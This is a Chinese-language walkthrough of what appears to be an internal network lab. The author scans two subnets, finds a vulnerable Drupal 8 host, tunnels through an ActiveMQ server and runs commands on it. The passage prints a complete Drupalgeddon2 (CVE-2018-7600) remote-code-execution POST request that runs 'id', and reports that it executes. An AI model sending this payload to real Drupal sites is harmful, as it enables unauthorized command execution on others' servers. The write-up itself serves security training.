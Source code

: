 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUbia0WiaeC2bECWD67tGv0hiccKcDPd0xGr2Bwd05RBHecNSMC84aULxoXPd7OLvTSJPy9SxWib1rlCw/640?wx_fmt=png&from=appmsg "")  
  
  
当然两张网卡都会扫  
  

```
172.16.100.70/24
10.10.10.70/24
```

  
直接开扫  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUbia0WiaeC2bECWD67tGv0hic0p6tRbocggcxWibQy4avvQQ1sDEB9z6Gj0YO9V2M7DR99DfgpZ8p8Mg/640?wx_fmt=png&from=appmsg "")  
  
  
注意到  
  

```
http://172.16.100.30 poc-yaml-drupal-cve-2018-7600-rce drupal8
```

  
对activemq此服务器进行一个隧道代理  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUbia0WiaeC2bECWD67tGv0hicybsmONDKou6QibRUyrsibmhCfkHkSahPx8tFoqTvl5IDKpgjyBVZxkMQ/640?wx_fmt=png&from=appmsg "")  
  
  
然后，直接bp配置好后进行访问  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUbia0WiaeC2bECWD67tGv0hicB7ZfX0KbhyuUJOwyXxkvnibNIys4iaXVLRjnl2QH3QibzR4hEichP7kXGQ/640?wx_fmt=png&from=appmsg "")  
  
  
在对cve进行搜索  
  
  
此处借用freebuf上的poc  
  
  
https://www.freebuf.com/vuls/268189.html  
  

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: xxxx
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUbia0WiaeC2bECWD67tGv0hicz8EXRbUDFAThribLVEom2iaZI7JWszlbbx26diblmicJKDRM1GSibgqruuw/640?wx_fmt=png&from=appmsg "")  
  
  
成功执行，直接看根目录  
  